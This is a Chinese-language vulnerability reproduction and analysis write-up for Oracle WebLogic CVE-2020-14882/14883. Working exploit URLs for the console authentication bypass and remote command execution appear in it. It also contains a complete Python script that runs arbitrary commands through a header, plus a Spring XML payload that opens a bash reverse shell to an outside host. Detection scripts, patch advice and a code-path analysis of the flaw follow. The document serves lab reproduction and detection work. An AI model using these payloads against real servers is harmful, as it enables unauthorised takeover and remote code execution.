# weblogic权限绕过/远程命令执行漏洞（CVE-2020-14482、CVE-2020-14883）复现与利用

## 漏洞概述

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。

CVE-2020-14882：远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic 管理控制台。

CVE-2020-14883：允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个HTTP请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

## 影响版本

- Weblogic : 10.3.6.0.0
- Weblogic : 12.1.3.0.0
- Weblogic : 12.2.1.3.0
- Weblogic : 12.2.1.4.0
- Weblogic : 14.1.1.0.0

## 漏洞复现

### 环境搭建

此处使用vulhub下的环境，执行以下命令启动一个Weblogic 12.2.1.3版本的服务器

```
cd vulhub/weblogic/CVE-2020-14882
sudo docker-compose up -d
```



启动完成后，访问http://ip:7001/console即可查看到后台登陆页面



### 漏洞测试

#### 1.weblogic权限绕过（CVE-2020-14882）

我们可以构造特殊请求的URL，即可未授权访问到管理后台的页面：

```
http://ip:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```



访问后台后是一个低权限的用户，无法安装应用，也无法直接执行任意代码。

#### 2.weblogic远程命令执行（CVE-2020-14883）

结合 CVE-2020-14882 漏洞，远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console ，并在 WebLogic Server Console 执行任意代码。

这个漏洞一共有两种利用方法：

```
第一种方法是通过com.tangosol.coherence.mvel2.sh.ShellSession
第二种方法是通过com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext
```

##### 2.1第一种方法（weblogic 12.2.x 适用）

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在com.tangosol.coherence.mvel2.sh.ShellSession类。

###### 2.1.1 GET请求方式（无回显）

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```
http://ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

执行docker-compose exec weblogic bash进入容器中，可见/tmp/success1已成功创建。



###### 2.1.2 POST请求方式（有回显）

执行命令如下：

```
python CVE-2020-14882_POST.py -u http://ip:7001/ -c "uname -a"
```



脚本源码如下：

```
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)

```

##### 2.2 第二种方法（weblogic 版本通用）

com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

###### 反弹shell验证

在攻击者主机上启动NC监听端口

```
nc -lvnp 7777
```

事先准备一台web服务器，放置恶意rce.xml文件

rce.xml中的执行命令如下示例：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/192.168.31.66/7777 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>

```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.31.66/rce.xml")
```

在攻击者主机上成功接收到反弹的shell



## 漏洞检测poc

WebLogic-CVE-2020-14882：

```
import requests

def scan(target_url):
    try:
        headers = {
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Mobile Safari/537.36'
        }
        # 漏洞利用的URL路径
        vulnerable_path = "/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29"
        # 完整的URL
        vul_url = target_url + vulnerable_path
        response = requests.get(vul_url, headers=headers, timeout=10)
        # 检查响应状态码是否为200 OK
        if response.status_code == 200:
            # 检查响应内容中是否包含特定的页面标识
             if "WebLogic Server" in response.text:
                return True
        return False
    except Exception as e:
        print(f"[-] 发生错误: {e}")
        return False
```

WebLogic-CVE-2020-14883：

```
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def scan(target_url):

    payload = payload_cve_2020_14882_v12
    # 漏洞利用的URL路径
    path = "/console/css/%252e%252e%252fconsole.portal"
    # 构建payload
    headers = {
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                      'application/signed-exchange;v=b3;q=0.9',
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection': 'close',
            'Content-Type': 'application/x-www-form-urlencoded',
            'cmd': 'whoami'
        }
    try:
        # 完整的URL
        request = requests.post(target_url + path, data=payload, headers=headers, timeout=10, verify=False)        # 检查响应内容中是否包含特定的系统信息
        # print(request.text)
        expected_output = "oracle"
        if expected_output in request.text:
            return True
        return False
    except Exception as e:
        print(f"[-] 发生错误: {e}")
        return False
```

可以使用以下工具来检测漏洞是否存在:https://github.com/hypnoticp/Python_script



## 漏洞修复建议

此次 Oracle 官方的 CPU已发布了针对该漏洞的补丁，请受影响用户及时下载补丁程序并安装更新。

及时更新补丁，参考oracle官网发布的补丁:

Oracle Critical Patch Update Advisory - October 2020

https://www.oracle.com/security-alerts/cpuoct2020traditional.html

注：Oracle官方补丁需要用户持有正版软件的许可账号，使用该账号登陆https://support.oracle.com后，可以下载最新补丁。

## 漏洞原理

原理大概是绕过权限访问到console.portal路径并且触发handle执行，CVE-2020-14883 是一个 Console 的未授权访问，而 CVE-2020-14883 是在利用未授权访问的前提下，在 Console 进行代码执行，于是远程攻击者可以构造特殊的 HTTP 请求，在未经身份验证的情况下接管 WebLogic Server Console ，并在 WebLogic Server Console 执行任意代码。

### CVE-2020-14882分析

#### 漏洞触发点：

首先要明白，漏洞的触发是在 console 组件，而console对应着webapp服务，路径：wlserver/server/lib/consoleapp/webapp。并且存在web.xml，于是查看与MBeanUtilsInitSingleFileServlet相关的web.xml信息：

在web.xml中，AppManagerServlet是一个关键的servlet，它通过init-param指定了MBeanUtilsInitSingleFileServlet作为其servlet-class-name的初始化值。这个servlet负责处理对*.portal路径的请求。



#### 请求处理：

当用户请求/console/console.portal时，请求会经过AppManagerServlet的分派处理。所有的请求都会通过ServletRequestImpl的预处理，调用WebAppSecurity#checkAccess进行权限校验。

从绕过路径权限的校验开始。首先weblogic的请求会经过weblogic.servlet.internal.WebAppServletContext#execute处理，这里会调用securedExecute()



跟进securedExecute，后会调用doSecuredExecute，继续跟进



weblogic.servlet.internal.WebAppServletContext#doSecuredExecute



进入weblogic.servlet.security.internal.WebAppSecurity#checkAccess()中可以看到当我们请求的路径为/console/console.portal时，checkAllResources为false



这里跟进weblogic.servlet.security.internal.WebAppSecurityWLS#getConstraint()



#### 静态资源与权限校验：

如果请求的资源在matchMap中，则被视为静态资源，不会进行权限验证。如果不在matchMap中，则会调用SecurityModule#isAuthorized进行权限校验。如果校验失败，请求会被重定向到登录界面。

这里即比较我们的relURI是否匹配我们matchMap中的路径，并判断rcForAllMethods和rcForOneMethod是否为null

当我们的relURI为/console.portal时，rcForAllMethods不为null，rcForOneMethod为null，所以返回了rcForAllMethods。而对应静态资源就不会有限制和校验



接下来回到checkAccess，如果这里是原来的/console.portal时，到这就结束了



如果使用console/images/console.portal则会继续判断resourceConstraint及后续的isAuthorized，并进入weblogic.servlet.security.internal.ChainedSecurityModule#checkAccess



在weblogic.servlet.security.internal.CertSecurityModule#checkUserPerm中会进入hasPermission校验权限



所以当我们这里使用静态资源路径时，unrestrict值就为true



然后 checkAcess方法返回 true。

#### 重定向登陆界面

如果checkAcess方法返回false。那么不会进入后续的分派，会结束doSecuredExecute方法的执行。一路return到执行ServletRequestImpl#runInternal的finally分支。



这里会调用send方法，在该方法会将没有分派的请求重定向到login界面。

#### 请求分派：

如果checkAcess方法返回true,请求会继续分派，最终调用ServletStubImpl的execute方法。根据web.xml的配置，请求会调用对应的Servlet。

注意，根据web.xml，请求如下路径所对应的servlet不一样，因为几个路径都是之前所提到的静态路径，没有身份验证，但是我们需要利用到AsyncInitServlet来处理，因为我们diff到的修补点在MBeanUtilsInitSingleFileServlet，这个类是通过AsyncInitServlet来设置的。

servlet对应关系部分如下：

```
/framework/skeletons/wlsconsole/js/* -> FileDefault
/css/* -> AsyncInitServlet
/images/* -> AsyncInitServlet
/common/* -> JSPCServlet
...
```

于是，请求/css/*会调用AsyncInitServlet的service方法，之后会根据web.xml中的配置对应的AsyncInitServlet来到了weblogic.servlet.AsyncInitServlet#service



这里的delegate就是在web.xml被初始化的MBeanUtilsInitSingleFileServlet。 接下来以漏洞URL为例。

#### 目录穿越：

攻击者可以通过构造特定的请求路径（如/css/%252E%252E%252Fconsole.portal），利用目录穿越技巧访问console.portal文件。这里的%252E%252E是..的URL编码形式。

```
/css/%252E%252E%252Fconsole.portal
```

**这里要二次编码的原因是，发过去的时候http会解一次码，也就是说如果我们传的是/css/%2E%2E%2Fconsole.portal，那么解码后就是/css/../console.portal，这样发到服务端就没办法匹配到静态资源了，直接处理成了/console.portal。**

如果http解码后的url里没有;，那么就会继续调用super.service，而官方的补丁修复也是在这，通过一个黑名单列表检测路径里的非法字符，不过官方给出的黑名单字符不够完善，能够被绕过。



再次进入super.service()



最终不管哪种请求都会来到doPost，并在这里调用createUIContext



UIContext会根据请求中的参数作对应属性值的设置，比如后面会说到的_nfpb。



创建完之后，会返回一个UIContext对象。 这里的tree也就是createUIContext传入的第三个参数，初始值为null。



随后进入getTree又进行了一次解码，此时requestPattern就变成/css/../console.portal



#### 生命周期运行：

一旦console.portal文件被加载，它会创建一个控件树，并开始运行生命周期方法。这些方法会根据console.portal文件中的XML结构顺序执行。

这个顺序也就是console.portal文件里的xml嵌套顺序。



因为是深度优先，在console.portal里的所有引用的portal文件也会按顺序解析，比如



直到所有标签解析完。